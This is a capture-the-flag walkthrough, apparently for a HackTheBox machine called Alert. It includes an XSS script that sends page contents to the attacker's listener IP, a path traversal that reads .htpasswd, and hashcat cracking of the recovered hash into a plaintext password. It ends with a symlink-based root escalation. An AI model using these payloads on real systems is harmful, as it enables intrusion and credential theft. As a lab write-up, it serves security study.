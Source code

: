 

1.  RUN: **nmap -sV -Pn alert.htb**

Result: PORTS FOUND: 22, 80

![](Alert/media/image1.png)

2.  Open **HTTP://alert.htb:80**

![](Alert/media/image2.png)

**INFO:** According to title Alert, it should be XSS vulnerability

**SUBDOMAIN FUZZ**

1.  RUN: **ffuf -w
    /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
    http://alert.htb -H \"Host:FUZZ.alert.htb\" -ac**

> ![](Alert/media/image3.png)

1.  On Kali VM: Start HTTP-Server RUN: **python -m http.server 80**

![](Alert/media/image4.png)

2.  Create **XSS_payload.md** file

- Paste script in it

- In LINE 5, Replace IP with local Kali VM IP

![](Alert/media/image5.png)

**Source: <https://github.com/sh3bu/CVE-2024-41662>**

**Script:**

\<script\>

fetch(\"http://alert.htb/index.php?page=messages\")

.then(response =\> response.text()) // Convert the response to
text

.then(data =\> {

fetch(\"http://10.10.14.201/?data=\" +
encodeURIComponent(data));

})

.catch(error =\> console.error(\"Error fetching the messages:\",
error));

\</script\>

- Upload to markdown website

![](Alert/media/image6.png)

**Result**

![](Alert/media/image7.png)

Easier to read with <https://www.urldecoder.org/>

3.  Start **python -m http.server 9001** or nc -lvnp 9001

![](Alert/media/image8.png)

4.  PATCH TRAVERSAL: Create modified script

<http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd>

![](Alert/media/image9.png)

5.  Upload that script on Website
    [**http://alert.htb**](http://alert.htb)

**Click View Markdown**

![](Alert/media/image10.png)

Right click -\> copy link

6.  ![](Alert/media/image11.png)![](images/media/image12.png)

7.  Upload copied LINK to **Contact** on
    **<http://alert.htb>/index.php?page=contact**

![](Alert/media/image13.png)

8.  After you click on SEND, you'll get the displayed in Kali VM, the
    **HASH Password**

**%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A**

![](images/media/image14.png)

9. Convert it to cleartext on
    [www.urldecoder.org](http://www.urldecoder.org) or CyberChef
    <https://gchq.github.io/CyberChef>

![](Alert/media/image15.png)

10. Create file **alert.hash** and paste hash in it

11. Crack it with **hashcat alert.hash /home/kali/Desktop/rockyou.txt**

![](Alert/media/image16.png)

-Login with **User:** albert **Password:** manchesterunited and display
**user.txt FLAG**

RUN: cat user.txt

**PRIVILEGE ESCALATION**

12. Transfer **linpeas.sh** to Server RUN: **scp linpeas.sh
    <albert@alert.htb>:**

**INFO:** Terminal has to be opened in same directory as file linpeas.sh

![](Alert/media/image17.png)

13. On server RUN: **./linpeas.sh**

- **Port 8080 is open**

![](Alert/media/image18.png)

Look for interesting paths, like **/opt/ (NEEDED in STEP 19)**

![](Alert/media/image19.png)

14. PORT FORWARDING: **ssh -L 8080:127.0.0.1:8080 <albert@alert.htb>**

![](Alert/media/image20.png)

15. Firefox access **127.0.0.1:8080**

![](Alert/media/image21.png)

16. Change directory to /opt/website-monitor and list all files

-RUN: **cd /opt/website-monitor**

-RUN: **ls -la**

**INFO: ls -la** is a very useful command for **getting a detailed view
of the files and directories** in a given location, **including hidden
files and their permissions, ownership, sizes, and modification times.**

**-**Explore the **/opt/website-monitor** directory. Investigate, how
the application works. Check which directories have write permission

![](Alert/media/image22.png)

17. You will see the contents of the monitors directory. You can open
    these files through the browser.

Open following in Browser: **http://127.0.0.1:8080/monitors/alert.htb**

![](Alert/media/image23.png)

18. The application is running under the root user so you should be able
    to read the **/etc/shadow** or **/root/root.txt**. Just create a
    symlink in the **monitors** directory and call it **root.txt**

- To create SYMBOLIC LINK, RUN: **ln -s /root/root.txt root.txt**

![](Alert/media/image24.png)

19. Open in Browser: 127.0.0.1:8080/monitors/root.txt to get **Root.txt FLAG**
